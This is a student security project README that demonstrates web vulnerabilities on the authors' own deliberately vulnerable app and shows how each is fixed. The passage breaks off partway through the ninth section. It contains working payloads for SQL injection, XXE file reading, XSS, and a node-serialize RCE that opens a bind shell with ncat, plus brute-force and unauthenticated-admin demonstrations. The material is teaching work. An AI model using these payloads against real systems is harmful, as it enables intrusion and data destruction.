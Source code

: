# CS467: Website Security Research Project

This project will explore the web vulnerabilities outlined in the article <a href="https://www.vpnmentor.com/blog/top-10-common-web-attacks/">Top 10 Common Web Attacks: The First Steps to Protect Your Website</a>. These vulnerabilities are categorized as follows:

* [Injection](#1-injection)
* [Broken Authentication](#2-broken-authentication)
* [Sensitive Data Exposure](#3-sensitive-data-exposure)
* [XML External Entities](#4-xml-external-entities)
* [Broken Access Control](#5-broken-access-control)
* [Security Misconfiguration](#6-security-misconfiguration)
* [Cross-Site Scripting](#7-cross-site-scripting)
* [Insecure Deserialization](#8-insecure-deserialization)
* [Using Components with Known Vulnerabilities](#9-using-components-with-known-vulnerabilities)
* [Insufficient Logging & Monitoring](#10-insufficient-logging--monitoring)

These vulnerabilities will be explored through a demonstration app, datapotato:
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_black.svg#gh-light-mode-only" width=50% height=50%>
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_white.svg#gh-dark-mode-only" width=50% height=50%>

# 1. Injection 
<details>
  <summary>
    Details
  </summary>
  
### Description

  |Source|Definition|
  |---|---|
  |Wikipedia|**Code injection** is the exploitation of a computer bug that is caused by processing invalid data|
  |OWASP|**Injection** is an attacker’s attempt to send data to an application in a way that will change the meaning of commands being sent to an interpreter|
  |IBM|This type of attack allows an attacker to **inject code** into a program or query or inject malware onto a computer in order to execute remote commands that can read or modify a database, or change data on a web site|
  
  These definitions are intentionally broad, as this concept appears in many environments. Our sources above list multiple subcategories of injection vulnerabilities:
  
  * Wikipedia: SQL injection, Cross-site scripting, Dynamic evaluation vulnerabilities, Object injection, Remote file injection, Format specifier injection, Shell injection
  * OWASP: SQL queries, LDAP queries, Operating system command interpreters, Any program invocation, XML documents, HTML documents, JSON structures, HTTP headers, File paths, URLs, A variety of expression languages
  * IBM: Blind SQL Injection, Blind XPath Injection, Buffer Overflow, Format String Attack, LDAP Injection, OS Commanding, SQL Injection, SSI Injection, XPath Injection
  
  ---
  
### Demonstration
  We'll focus on a specific flavor of injection vulnerability, SQLi (SQL injection).
  
  In this example, users are able to submit a request for data, for any individual user:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName1.PNG">
  
  This sends the following request to our SQL table:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1'
  ```
  
  Result:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  
  Now, let's inject a logical statement that our developers probably didn't intend to be used.  
  (This statement closes an open string, adds a logical OR, and comments out the rest of the SQL request body):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName2.PNG">
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1' or TRUE
  ```
  
  This returns all rows in our table, because TRUE always evaluates to TRUE:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  |user2|user2's data|
  |user3|user3's data|
  |[...]|[...]|
  
  You can try a live demo of this here (requires connection to OSU VPN):
  <a href="http://flip3.engr.oregonstate.edu:37773/injection#demonstration">[LINK TO WEB APP]</a>
  
  In this example, we've allowed the user to execute arbitrary SQL queries on our database. Our data is no longer secure or reliable. 
 
  ---  

### Remediation
  
  Remediation for injection vulnerabilities are specific to the context of the application. We will provide recommendations for the specific example above.
  
  OWASP advises vulnerabilities like the SQLi example above are failures of the **injection context**, specifically the SQL query. OWASP recommends the first defense in this context is escaping, in which we ensure data is treated like data, rather than an extension of the functionality or logic the query.
  
  MariaDB provides a method to bind data values to our query at the time it is executed, preventing the injection of additional commands.
  
  We'll convert our SQL query to a paramaterized query:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName=?
  ```
  
  This time, if you didn't enter a valid userName, you won't retrieve any results, since "user1' or TRUE; #" is not a valid user. This query is hardened against arbitrary SQL commands entered by our users.
 
  ---
  
### Citations: Injection
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Code_injection (accessed Jan 29, 2022).
  
  J. Williams. "Injection Theory". OWASP.  
  https://owasp.org/www-community/Injection_Theory (accessed Jan 29, 2022).
  
  "Injection Attacks." IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-injection-attacks (accessed Jan 29, 2022).
  
  "PREPARE Statement". MariaDB.  
  https://mariadb.com/kb/en/prepare-statement/ (accessed Feb 10, 2022)
</details>

# 2. Broken Authentication
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(now referred to as Identification and Authentication Failures) Confirmation of the user's identity, authentication, and session management is critical to protect against **authentication-related attacks**|
  |IBM| This type of attack targets and attempts to **exploit the authentication process** a web site uses to verify the identity of a user, service, or application|
  
  This is another broad category. There are many types of authentication in use. IBM divides these attacks into 3 categories:
  * Brute force
  * Insufficient authentication
  * Weak password recovery
  
  Our app won't implement a password recovery system, so we'll focus on the other two attacks.
  
  ---
  
### Demonstration
  The most basic attack in this category is brute force, either guessing credentials or using an automated process to gain access to restricted systems or data.
  
  We've set up an `/admin` route that allows direct read accesss for our web app's data. To access this route, you'll need to know the admin username an password.
  
  To make it easy, we'll pick one of the [OWASP Top 10000 Worst Passwords](https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt). Can you guess which one it is?
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/admin.PNG">
  
  If you brute-forced this answer and visit the [ADMIN page](http://flip3.engr.oregonstate.edu:37773/admin) (requires connection to OSU VPN), you'll see all our user data.
  
  ---
  
### Remediation
  
  There are multiple ways we can harden our app against this vulnerability.
  
  First, we'll change the password to something harder to guess. Because password strength recommendations vary widely, we'll combine recommendations from a few sources:
  
  |Source|Recommendation|
  |---|---|
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Minimum length of the passwords should be enforced by the application. Passwords shorter than 8 characters are considered to be weak
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Maximum password length should not be set too low, as it will prevent users from creating passphrases. A common maximum length is 64 characters [...] It is important to set a maximum password length to prevent long password Denial of Service attacks.|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A length of 15-50 characters|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A combination of at least two-character types from the following options: uppercase[A-Z], lowercase[a-z], number[0-9], and special characters. The valid non-alphabetic characters include the following characters hyphen (-), underscore (_), period (.), and special characters such as !@#$%&|
  
  We'll also use a password strength meter application like [zxcvbn](https://github.com/dropbox/zxcvbn) to ensure the password we pick is safe against brute force attacks. (See also: [interactive web implementation of zxcvbn](https://lowe.github.io/tryzxcvbn/))
  
  Now that we've got our strong password, we'll salt it and hash it using the [Crypto nodejs module](https://nodejs.org/api/crypto.html) before saving it in our database. This fixes two more vulnerabilities:
  
  Salting: This is a randomized string concatenated with the password before hashing, to ensure that if the hashing mechanism is compromised, an attacker can't automatically solve for all the other passwords in the database.
  
  Hashing: This increases the complexity of the plaintext password before saving it to our database, ensuring someone with access to the database can't read the plaintext version of the password.
  
  These changes are impemented on our user <code>superAdmin</code>, and will be implemented in the hardened web app.
  
  ---
  
### Citations: Broken Authentication
  "A07:2021 – Identification and Authentication Failures". OWASP top 10:2021.  
  https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/ (accessed Feb 10, 2022).
  
  "Authentication attacks". IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-authentication-attacks (accessed Feb 10, 2022).
  
  D. Whitelegg. "Scan your app to find and fix OWASP Top 10 - 2017 vulnerabilities". IBM Developer.  
  https://developer.ibm.com/tutorials/se-owasp-top10/ (accessed Feb 10, 2022).
  
  "10k-worst-passwords.txt". OWASP / passfault.  
  https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt (accessed Feb 10, 2022).

  "Authentication Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html (accessed Feb 12, 2022).
  
  "Password guidelines". Search in IBM Sterling Partner Engagement Manager.  
  https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines (accessed Feb 12, 2022).
  
  "zxcvbn". dropbox / zxcvbn.  
  https://github.com/dropbox/zxcvbn (accessed Feb 12, 2022).
  
  "demo". zxcvbn tests.  
  https://lowe.github.io/tryzxcvbn/ (accessed Feb 12, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html (accessed Feb 12, 2022).

  "How to use the crypto module". Node.js.  
  https://nodejs.org/en/knowledge/cryptography/how-to-use-crypto-module/ (accessed Feb 13, 2022).
 </details>
  
# 3. Sensitive Data Exposure
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(See "Cryptographic Failures")[...] the focus is on **failures related to cryptography** (or lack thereof) [...] (which) often lead to exposure of sensitive data"
  |vpnMentor|Secret data usually needs to be **protected with encryption** and other cryptographic algorithms|
  
  ---
  
### Demonstration
  
  Any endpoint that can access our user data will be able to see the userData column in plaintext. (Users on the OSU VPN can use the exploit in the [Broken Authentication](#2-broken-authentication) section to access this data.) 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/userData.PNG">
  
  ---
  
### Remediation
  
  The most direct route for us to fix this is to encrypt our users' data.
  
  Fortunately, the <code>crypto</code> nodejs module we're using to salt and hash our user passwords also includes <code>cipher</code> and <code>decipher</code> classes we can use to encrypt this part of our database.
  
  (OSU VPN users only) This utility is live on the [/admin route](http://flip3.engr.oregonstate.edu:37773/admin) and you can see a snapshot of the web app utility here.
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt1of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt2of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt3of3.png">
  
  ---
  
### Citations: Sensitive Data Exposure
  
  "A02:2021 – Cryptographic Failures". OWASP Top 10:2021.  
  https://owasp.org/Top10/A02_2021-Cryptographic_Failures/ (accessed Feb 13, 2022).
  
  Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.  
  https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Feb 13, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html#class-cipher (accessed Feb 16, 2022).
  
</details>

# 4. XML External Entities
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |OWASP|An **XML External Entity attack** is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.|
  |IBM| [Vulnerable software] could allow a remote attacker to obtain sensitive information, caused by an **XML External Entity Injection** (XXE) error when processing XML data. An attacker could declare an entity referencing the content of a local file to obtain sensitive information.|
  
  A basic XML file with a defined entity looks like this:
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar</foo>
  ```
  
  Here's how Firefox and Chrome render this XML:
  
  Firefox:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooFirefox.PNG">
  
  Chrome:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooChrome.PNG">
    
  ---
  
### Demonstration
  
  The issue at hand is that the [document type declaration](https://www.w3.org/TR/REC-xml/#sec-prolog-dtd) can be configured to access internal or external references.
  
  External entities, such as ones that point to server resources, or malicious URLs, are our primary concern. Here are is an example of a potentially harmful XML request (from the [OWASP website](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).) This request could send an attacker information about critical system files:
  
  ```
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
  <foo>&xxe;</foo>
  ```
  
  Because many modern node libraries do not support expansion of external entities, your researchers were not able to find a library which sufficiently demonstrated this vulnerability compatible with our node setup. In lieu of a live demonstration, please consider the following well-documented examples:
  
  [XML Entity Expansion in NodeJS](https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html)  
  [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)  
  
  ---
  
### Remediation
  
  Developers should consider all of their XML parsing dependencies carefully, and ensure any custom XML parsing implementations have external entity expansion off by default. 
  
  Popular npm XML parsing utilities such as [express-xml-bodyparser](https://www.npmjs.com/package/express-xml-bodyparser) will automatically prevent entities from being defined, by throwing an error if an unescaped ampersand is encountered. Here's what happens when we send an XML POST to our endpoint with an ampersand using this package:
  
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar;</foo>
  ```
  Returns <code>Error: Invalid character entity</code>
  
  In our hardened web app, we'll return a <code>400 BAD REQUEST</code> error if we receive a request of this type. This will limit the types of XML requests we can process, but it will ensure protection against this vulnerability. Try using an API like [Postman](https://www.postman.com/) to send your own XML request to the server.
  
  ---
  
### Citations: XML External Entities
  "XML External Entity (XXE) Processing". OWASP.  
  https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing (accessed Feb 20, 2022).
  
  "IT06733: A vulnerability in XML External Entity (XXE) processing could allow a remote attacker to obtain sensitive information.". IBM Support.  
  https://www.ibm.com/support/pages/apar/IT06733 (accessed Feb 20, 2022).
  
  "XML introduction". MDN Web Docs.  
  https://developer.mozilla.org/en-US/docs/Web/XML/XML_introduction (accessed Feb 20, 2022).
  
  "Load external DTDs (entity/entities) (local and remote) if a pref is set". Bugzilla.  
  https://bugzilla.mozilla.org/show_bug.cgi?id=22942 (accessed Feb 20, 2022).
  
  "express-xml-bodyparser". npmjs.com.  
  https://www.npmjs.com/package/express-xml-bodyparser (accessed Feb 20, 2022).
  
  "Prolog and Document Type Declaration". w3.org.  
  https://www.w3.org/TR/REC-xml/#sec-prolog-dtd (accessed Feb 20, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 20, 2022).
  
  "XML Entity Expansion in NodeJS". SecureFlag.  
  https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html (accessed Feb 23, 2022).
  
  "XML External Entity Prevention Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html (accessed Feb 23, 2022).
  
</details>

# 5. Broken Access Control
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|In the fields of physical security and information security, **access control** (AC) is the selective restriction of access to a place or other resource|
  |OWASP|**Access control** enforces policy such that users cannot act outside of their intended permissions. Failures typically lead to unauthorized information disclosure, modification, or destruction of all data or performing a business function outside the user's limits|
  |IBM|**Access control** mechanisms determine which operations the user can or cannot do by comparing the user's identity to an access control list (ACL)|
  
  In our first 5 vulnerabilities, this category affects the most code. Every piece of data, endpoint, and access mechanism should be considered with respect to this topic.
  
  OWASP goes on to provide a [broad list of vulnerabilities](https://owasp.org/Top10/A01_2021-Broken_Access_Control/) in this category:
  
  * Violation of the principle of least privilege or deny by default, where access should only be granted for particular capabilities, roles, or users, but is available to anyone.  
  * Bypassing access control checks by modifying the URL (parameter tampering or force browsing), internal application state, or the HTML page, or by using an attack tool modifying API requests.  
  * Permitting viewing or editing someone else's account, by providing its unique identifier (insecure direct object references)  
  * Accessing API with missing access controls for POST, PUT and DELETE.  
  * Elevation of privilege. Acting as a user without being logged in or acting as an admin when logged in as a user.  
  * Metadata manipulation, such as replaying or tampering with a JSON Web Token (JWT) access control token, or a cookie or hidden field manipulated to elevate privileges or abusing JWT invalidation.  
  * CORS misconfiguration allows API access from unauthorized/untrusted origins.  
  * Force browsing to authenticated pages as an unauthenticated user or to privileged pages as a standard user.  

  ---
  
### Demonstration
  
  Our app is currently vulnerable to two of the access control failures above: bypassing access control checks by modifying the URL and accessing the API with missing access controls.
  
  During development, we created a route (OSU VPN users only) [/adminTest](http://flip3.engr.oregonstate.edu:37773/adminTest) to test admin functionality. This page was created before we implemented Session authentication. However, we forgot to remove this route or remediate the access control on this page. Even though there is no link to this page on our site, if someone discovered this route they'd be able to access many of our admin utilities normally protected with userName/password authentication.
  
  The other access control failure can be demonstrated with any utility that can send an HTTP request. Here, we'll use [Postman](https://www.postman.com/). 
  
  Our web app will process any valid HTTP request sent to it without requiring authentication. Let's POST to [/admin](http://flip3.engr.oregonstate.edu:37773/admin) and use the admin utility to reset the database: 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/postToAdmin.png">
  
  We were able to do this because there's no access control on that route. All of our custom user data has been lost!  
  
  ---
  
### Remediation
  
  In our hardened app, we'll make to two changes to remediate these failures:
  
  1. The <code>/adminTest</code> route will be removed
  2. All reqest types sent to the <code>/admin</code> route will require the same Session authentication confirming the user that is signed in has admin credentials.
  
  Additional remediations we could take include:
  * Using more advanced authentication such as JWTs
  * Enforcing "least privilege" principles where certain utilities are only available to specific user groups
  * Increased logging
  * Disabling directory browsing
  
  ---
  
### Citations: Broken Access Control
  "A01:2021 – Broken Access Control". OWASP Top 10:2021.  
  https://owasp.org/Top10/A01_2021-Broken_Access_Control/ (accessed Feb 21, 2022).
  
  "Authentication versus access control". IBM Watson Content Analytics.  
  https://www.ibm.com/docs/en/wca/3.0.0?topic=security-authentication-versus-access-control (accessed Feb 21, 2022).
  
  "Access Control". Wikipedia.  
  https://en.wikipedia.org/wiki/Access_control (accessed Feb 21, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 21, 2022).
  
</details>

# 6. Security Misconfiguration
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|**Security Misconfiguration** can happen at any level of an application stack, including the network services, platform, web server, application server, database, frameworks, custom code, and pre-installed virtual machines, containers, or storage.|
  |The Hackerish|**Security Misconfiguration** happens when the responsible party fails to follow best practices when configuring an asset.  This asset can be an operating system, a web server, software running on a machine, etc. Security Misonfigurations don't affect web assets only.  Any component which requires a configuration is subject to this vulnerability.  This means network devices, hardware, email services, etc. can suffer from this vulnerability.|
  |Guardiacore|**Security Misonfiguration** is simply defined as failing to implement security controls for a server or web application, or implementing the security controls, but doing so with error.|
  
  ---
### Demonstration
  From the definitions, it is clear that **Security Misoncfiguration** affects more than just the web application, which in our case is the nodejs application, the libraries we are using, and our database.
  
  For the purposes of this demonstration, we'll focus on the Server itself, which in this case if the Oregon State flip3 server where our vulnerable web application is hosted.  More specificically we'll look at configuration of the ports and protocols.
  
  One of the tenets of good network security is to only open network ports that are necessary. However, because of the nature of the flip3 server, it is required to be fairly open, otherwise it would not be possible to host student web applications - including ours.
  
  To put in perspective how open the flip3 server is, I conducted an nmap scan:
  
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan1.png" alt="flip_scan1" height="50%" width="100%">
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan2.png" height="50%" width="100%">
  
  The simple nmap scan can provide an attacker a wealth of information, but more importantly, each open port/protocal provides an attacker a potential attack vector against the system or application.
  
  ---
### Remediation
  For obvious reasons, we do not have the privileges necessary to harden the flip3 server, however, we do have those privileges on our AWS instance.
  
  In our AWS instance we can control which ports/protocols are exposed through the use of **Security Groups** and **Network ACLs**.  For our purposes, we'll only use the Security Group.
  
  Each EC2 instance in our AWS Virtual Private Cloud (VPC) must have a security group associated with it.  A security group acts a firewall.  We can define a range of source IPs from the Internet that communicate with our EC2 instance, and we can define the ports on our EC2 instance that can be reached.
  
  We created the following rule:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_security_group.png" width="100%">
  
  This only exposes the TCP port 37773 to anyone on the Internet (0.0.0.0), significantly reducing the attack surface area of our system/application.
  
  Screenshot of an nmap scan before the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_before.png" width="100%">
  
  Screenshot of an nmap scan after the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_after.png" width="100%">
  
  As we can see, the information a potential attacker is able to obtain is limited, but more importantly our attack surface area is greatly reduced.
  
  ---
### Citations: Security Misconfiguration
  "Security Misconfiguration". OWASP.  
  https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration (accessed Feb 22, 2022).
  
  "Security Misconfiguration Explained". The Hackerish.  
  https://thehackerish.com/owasp-security-misconfiguration-explained/ (accessed Feb 19, 2022).
  
  "What is Security Configuration and How to Avoid It" Guardiacore.  
  https://www.guardicore.com/blog/understanding-and-avoiding-security-misconfiguration/ (accessed Feb 19, 2022).
</details>

# 7. Cross-Site Scripting
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|**XSS** is a type of security vulnerability that can be found in some web application. XSS attacks enable attackers to inject **client-side scripts** into web pages viewed by other users.|
  |OWASP|**XSS** attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.|
  |IBM<|**XSS** is a computer securit vulnerability that allows malicious attackers to inject client-side script into web pages viewed by other users.|

  In summary, XSS is an attack on vulnerable web applications that allows a malicious actor to inject client-side script, e.g. javascript, into web pages.
                
  ---
### Demonstration
  In this first example, we will start off with benign input. Here's what users of the web app will see when they type **Hello World!** and select "Submit" in this example.
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssHelloWorld.png">
    
  This posts the following to our web application, which is then rendered by our express handlebars templating engine.

  ```
  req.body.userInput
  ```
    
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssDemonstrationResult.png">
    
  Now we'll inject a script into the web app, something the developers probably didn't intend to be used.
    
  Here's what users of the app will see when they type **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
                
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScript.png">
  
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScriptResult.png">
  
  In this example, we've allowed the user to inject a client-side script into our web application.
  
  ---
### Remediation
  There many methods to remediate XSS vulnerabilities. Most techniques revolve around sanitizing user input.
        
  Our web application is succeptible to XSS because the handlebars engine renders user provided input exactly as written.

  Specifically, the vulnerable piece of code in our handlebars template is:

  ```
  {{{input}}}
  ```

  Use of the triple brackets will render all user input exactly as written.

  We can prevent script injection by using double brackets as so:

  ```
  {{input}}
  ```

  Users can again attempt to inject the XSS script again into our web application:

  **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssRemediation.png">
  
  Use of double brackets in handlebars escapes special characters such as '&lt;' and '&gt;', which are often used in XSS attacks.
  
  ---
### Citations: Cross-Site Scripting
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Cross-site_scripting (accessed Feb 14, 2022).  
  
  KirstenS. "Cross Site Scripting (XSS)". OWASP.  
  https://owasp.org/www-community/attacks/xss/ (accessed Jan 29, 2022).  
  
  "Cross Site Scripting (XSS) Filter." IBM.  
  https://www.ibm.com/docs/en/sc-and-ds/8.2.0?topic=manager-cross-site-scripting-xss-filters (accessed Feb 15, 2022).  
  
  "Expressions." Handlebars Online User Guide.  
  https://handlebarsjs.com/guide/expressions.html (accessed Feb 10, 2022).
  
</details>

# 8. Insecure Deserialization
<details>
  <summary>
    Details
  </summary>
  
### Description
  In order to understand what **Insecure Deserialization** is, we must first define **serialization.**
  
  Wikipedia defines **serialization** as the process of translating a data structure or object state into a format that can be stored (e.g. in a file or memory buffer) or transmitted (e.g. over a network) and reconstructed later (possibly in a different computer envrinoment). When the resulting series of bits is re-read according to the serialization format, it can be used to create a semantically identical clone of the original object.
  
  |Source|Definition|
  |---|---|
  |Search Security|**Inseucre Deserialization** is a vulnerability in which an untrusted or unknown data is used to either inflict a DoS, execute code, bypass authentication or further abuse logic behind the application. **Serialization** is the proces that converts an object to a format that can be later restored. **Deserialization** is the opposing process which takes data from a file, stream or network and rebuilds it into an object.|
  |Portswigger|**Insecure Deserialization** is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized object in order to pass harmful data into the application code.|
  
  ---
### Demonstration
  Our web application makes use of the node package **"node-serialize"** to serialize and deserialize objects.
  
  In this first example, we will start off with benign input. We will serialize a simple JSON object and then deserialize it. Type:
  
  ```
  {test:123}
  ```
  
  and select "Submit". Here's what that looks like in our [web app (OSU VPN users only)](http://flip3.engr.oregonstate.edu:37773/insecureDeserialization):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization1.PNG">
  
  We'll now deserialize the serialized object, which should return the original input <code>{test:123}</code>. Here's the result from our web app.

  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization2.PNG">
  
  We'll now utlize a more nefarious input which will allow us to create a BIND Shell on our server. In the web app, type in the following:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  In a command line terminal, preferably linux, connect to the bind shell.
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  The vulnerable piece of code in our web application is:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var deserialized = serialize.unserialize(obj)
  ```
  
  We are deserializing unsanitized user input.
  
  The issue lies in the fact that the node-serialize package allows for the serialization and deserialization of JSON objects which have functions defined.
  
  In nefarious payload, we created a JSON object with the key **"rce"** which had function definend as its value.
  
  According to [Aleski Turin](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/), a serialized object with a function defined has the following form:
  
  ```
  {"anything_here":"_$$ND_FUNC$$_function (){сonsole.log(1)}"}
  ```
  
  Anything after the special tag <code>$$ND_FUNC$$</code> is evaluated in the eval function.  This is what allows malicious users to execute arbitrary code on our web application.
  
  ---
### Remediation
  We can mitigate/prevent this vulnerability from being exploited by sanitizing user input.
  
  In our sanitized code, we make use of the <code>JSON.stringify</code> function:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var sanitized = JSON.stringify(obj)
  var deserialized = serialize.unserialize(sanitized)
  ```
  
  If we attempt to enter the malicious code again, and try to connect to the BIND shell, it will fail.
  
  If you enter the following code again in our sanitized form, here's what you'll see:
  
  ><img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization3.PNG">
  
  Our web application can now safely deserialize the user input:
  
  ```
  {test:123}
  ```
  
  If you attempt to connect to the BIND shell, it no longer works. Try it:
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  ---
### Citations: Insecure Deserialization
  "Deserialization vulnerabilities: attacking deserialization in JS" Acunetix.  
  https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/ (accessed Feb 20, 2022).
  
  "Exploiting Node.js deserialization bug for Remote Code Execution". OPSECX.  
  https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ (accessed Jan 29, 2022).
  
  "Serialization" Wikipedia.  
  https://en.wikipedia.org/wiki/Serialization (accessed Feb 15, 2022).
  
  "What is Insecure Deserialization." Acunetix.  
  https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/ (accessed Feb 10, 2022)
</details>

# 9. Using Components with Known Vulnerabilities
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |Team Treehouse|**Components** such as libraries, frameworks, and other software modules, run with same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover.  Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts|
  |GeeksforGeeks|**Components with known vulnerabilities** can be defined as third-party apps or software platforms that are outdated and contain bugs that are public to all, i.e. sites like <a href="https://www.exploit-db.com">exploit-db</a> contain the full details as to how to exploit the bugs to put the security of the whole website under severe threat.|
